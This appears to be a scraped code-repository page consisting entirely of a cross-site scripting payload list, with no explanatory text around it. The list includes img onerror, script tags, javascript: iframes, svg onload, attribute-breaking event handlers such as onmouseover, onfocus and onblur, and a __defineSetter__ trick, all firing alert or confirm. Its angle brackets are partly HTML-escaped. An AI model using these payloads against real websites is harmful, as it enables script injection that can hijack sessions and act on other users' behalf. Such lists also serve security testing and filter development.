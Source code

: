 # -img-src-a-onerror-confirm-2-script-alert-1-script-iframe-src-javascript-alert-2-
'>&lt;img src=a onerror=confirm(2);>">&lt;script>alert(1);&lt;/script>">&lt;iframe src="javascript:alert(2)">">&lt;svg onload=alert(2);>"onmouseover="confirm(2); x"onclick="confirm(2);&lt;a/onmouseleave="confirm(2);"&lt;img onload="alert(1)" src="http://www.famouswhy.ro/ddd/images/lists/thumbs_small/yahoo_1.jpg">"autofocus/onfocus="alert(/XSS/)&lt;body/onscroll=alert(1)>&lt;a href="javascript:alert(1)" target="_blank" rel="noreferrer">CLICK&lt;/a>">&lt;abbr//////onmouseup="javascript:alert(1)">1 &lt;select name="a" onblur="alert(1)"> &lt;select name="a" onblur="alert(1)">&lt;script>x = '',__defineSetter__('x',alert),x=1,'';&lt;/script> 
